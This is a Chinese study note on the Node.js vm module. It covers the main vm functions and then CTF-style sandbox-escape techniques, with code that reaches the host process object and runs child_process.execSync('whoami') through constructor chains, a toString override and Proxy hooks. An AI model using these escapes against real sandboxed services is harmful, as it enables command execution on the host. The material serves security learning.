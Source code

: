 ## vm 沙箱
### vm文档
https://nodejs.cn/api-v14/vm.htm
### vm沙箱常用函数
#### vm.runinThisContext(code)
`vm.runInThisContext()` 编译 `code`，在当前 `global` 的上下文中运行它并返回结果。 运行代码无权访问局部作用域，但可以访问当前 `global` 对象。

```js
const vm = require('vm');
let localVar = 'initial value';
  
const vmResult = vm.runInThisContext('localVar = "vm";');
console.log(`vmResult: '${vmResult}', localVar: '${localVar}'`);
// 打印: vmResult: 'vm', localVar: 'initial value'
  
const evalResult = eval('localVar = "eval";');
console.log(`evalResult: '${evalResult}', localVar: '${localVar}'`);
// 打印: evalResult: 'eval', localVar: 'eval'
```

#### vm.createContext([contextObject[, options]])
如果给定 `contextObject`，`vm.createContext()` 方法将准备那个对象，以便它可以用于调用 `vm.runInContext()` 或 `script.runInContext()`。 在此类脚本中，`contextObject` 将是全局对象，保留其所有现有属性，但也具有任何标准全局对象具有的内置对象和函数。 在 vm 模块运行的脚本之外，全局变量将保持不变。
```js
const vm = require('vm');

global.globalVar = 3;

const context = { globalVar: 1 };
vm.createContext(context);
vm.runInContext('globalVar *= 2;', context);

console.log(context);
// 打印: { globalVar: 2 }
console.log(global.globalVar);
// 打印: 3
```

从结果可以看出这个新的沙箱对象是独立于global外的一个独立作用域，而这个沙箱对象是这个作用域的全局对象，与global中的全局全局对象是不同的，相当于v8中的第二个global

#### vm.runInContext(code, contextifiedObject[, options])
`vm.runInContext()` 方法编译 code，在 `contextifiedObject` 的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。 `contextifiedObject` 对象必须之前已经使用 `vm.createContext(`) 方法上下文隔离化。
```js
const vm = require('vm');

const contextObject = { globalVar: 1 };
vm.createContext(contextObject);

for (let i = 0; i < 10; ++i) {
  vm.runInContext('globalVar *= 2;', contextObject);
}
console.log(contextObject);
// 打印: { globalVar: 1024 }
```
#### vm.runInNewContext(code[, contextObject[, options]])
`vm.runInNewContext()` 首先将给定的 `contextObject` 上下文化（如果作为 `undefined` 传入，则创建新的 `contextObject`），编译 code，在创建的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。
如果 `options` 是字符串，则指定文件名。
简单的说 `vm.runInNewContext = vm.createContext + vm.createContext`

### vm沙箱逃逸方法
#### 传递对象逃逸
```js
const vm = require("vm");

const y1 = vm.runInNewContext(`this.constructor.constructor('return process.env')()`);
//const y1 = vm.runInNewContext(`this.toString.constructor('return process')()`);
return y1.mainModule.require('child_process').execSync('whoami').toString()
console.log(y1);
```

这里的`this` 是传递给`runInNewContext`的对象，这个对象并不在沙箱环境中，接下来就和ssit相似的过程去获取构造器，以及构造器对象的构造器

>注意：数字，字符串，布尔这类都是primitive类型，在传递的过程中他们是将值传递过去而不是引用，所以是没有办法用来利用的

#### 外界调用函数触发
这个触发方式有些类似于PHP反序列化魔术方法的触发

```js
const vm = require('vm');
const script = `...`;
const sandbox = Object.create(null);
const context = vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res)
```

exp

```js
const vm = require('vm');
const script = 
`(() => {
    const a = {}
    a.toString = function () {
      const cc = arguments.callee.caller;
      const p = (cc.constructor.constructor('return process'))();
      return p.mainModule.require('child_process').execSync('whoami').toString()
    }
    return a
  })()`;

const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res)
```

在这个逃逸中用到了`arguments.callee.caller`，作用是返回函数的调用者
- arguments是一个**类数组对象**，在函数调用时创建，它存储的是实际传递给函数的参数，并不局限于函数定义时的参数列表。
- callee 是arguments对象的一个属性, 它是一个指向 arguments 对象所在函数的指针。
- 这个属性中保存着调用当前函数的函数的引用， 如果是在全局作用域中调用当前函数，它的值为 null。

在上面的exp中重构了函数`a`的toString方法，因此在下面`console.log('Hello ' + res)`的过程中触发了a函数实现了逃逸

这里其实和DiceCTF 2023的jwtjail是相似的，但是jwtjail中外部没有能够用来触发toString和恶意重写的函数就通过`proxy`来劫持属性

利用`proxy`的钩子属性
- `get`，在沙箱外访问`proxy`的任意属性，即便这个属性不存在，钩子也会运行。
- `apply(target, thisArg, args)`，钩子能使代理以函数的方式被调用
	- `target` 是目标对象（函数是 JavaScript 中的对象）
	- `thisArg` 是 `this` 的值
	- `args` 是参数列表，这个擦部署列表是调用者传入的参数列表，列表的v8上下文不在vm内，可以用来返回`process`对象


## 参考文章
https://xz.aliyun.com/t/11859

[[函数] arguments、callee、caller是啥？ - 掘金 (juejin.cn)](https://juejin.cn/post/7056285377899790372)
